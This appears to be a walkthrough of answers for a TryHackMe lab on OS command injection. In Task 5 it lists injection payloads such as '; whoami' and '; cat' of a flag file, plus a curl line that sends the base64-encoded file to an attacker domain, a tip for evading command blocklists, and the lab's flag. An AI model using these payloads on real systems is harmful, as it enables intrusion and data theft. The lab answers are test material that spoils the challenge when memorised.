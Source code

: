 # Solution

## URL
- [Command Injection](https://tryhackme.com/room/oscommandinjection)

## Steps

### Task 2:
#### What variable stores the user's input in the PHP code snippet in this task?
1. The answer is `$title`.

#### What HTTP method is used to retrieve data submitted by a user in the PHP code snippet?
1. The answer is `GET`.

#### If I wanted to execute the id command in the Python code snippet, what route would I need to visit?
1. The answer is `/id`.

### Task 3:
#### What payload would I use if I wanted to determine what user the application is running as?
1. The asnwer is `whoami`.

#### What popular network tool would I use to test for blind command injection on a Linux machine?
1. The answer is `ping`.

#### What payload would I use to test a Windows machine for blind command injection?
1. The answer is `timeout`.

### Task 4:
#### What is the term for the process of "cleaning" user input that is provided to an application?
1. The answer is `sanitisation`.

### Task 5:
#### What user is this application running as?
1. Enter a valid input such as `127.0.0.1` and observe how the application works.
2. Now try to run another command with the already running ping command: `; whoami`.
3. The asnwer is on the screen: `www-data`.

#### What are the contents of the flag located in /home/tryhackme/flag.txt?
1. We can try to read the contents of `/home/tryhackme/flag.txt` the same way, just enter `; cat /home/tryhackme/flag.txt`.
2. We can also try to send it to a website we control like this, `` ; curl http://`base64 /home/tryhackme/flag.txt | sed -e 's/=*$//g'`.<ATTACKER-DOMAIN>/ ``
3. When we receive the the request, the subdomain part will be the base64 encoded string of contents of `/home/tryhackme/flag.txt` after stripping the `=` padding (if any), in ths case we received `VEhNe0NPTU1BTkRfSU5KRUNUSU9OX0NPTVBMRVRFfQo`.
4. Decoding it on a website like [base64decode](https://www.base64decode.org/) gives us the answer `THM{COMMAND_INJECTION_COMPLETE}`.
5. If is real life there is a blacklist on commands like `cat`, try using `less`, `more`, `head` or `tail`.